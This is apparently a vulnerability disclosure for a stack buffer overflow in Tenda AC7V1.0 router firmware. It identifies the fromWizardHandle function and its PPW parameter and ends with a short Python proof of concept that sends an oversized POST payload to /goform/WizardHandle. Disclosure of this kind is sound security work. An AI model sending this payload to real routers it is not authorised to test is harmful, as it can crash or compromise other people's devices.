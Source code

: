 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

In the Tenda AC7V1.0 V15.03.06.44 firmware has a stack overflow vulnerability located in the `fromWizardHandle` function. This function accepts the `WANT`and `WANS` parameter from a POST request. Within `case 2`, this function accepts the `PPW` parameter from a POST request, which is assigned to `decodePwd(pppoepwd, decode_pwd);`. However, since the user has control over the input of `PPW`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `PPW` can exceed the capacity of the `decode_pwd` array, thus triggering this security vulnerability.

![image-20240409144436622](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144436622.png)

![image-20240409144543183](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144543183.png)

![image-20240409144601905](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144601905.png)

![image-20240409144618132](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144618132.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WizardHandle"
payload = b"a"*1000

data = {"WANS":"0","WANT":"2","PPW": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102339559](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102339559.png)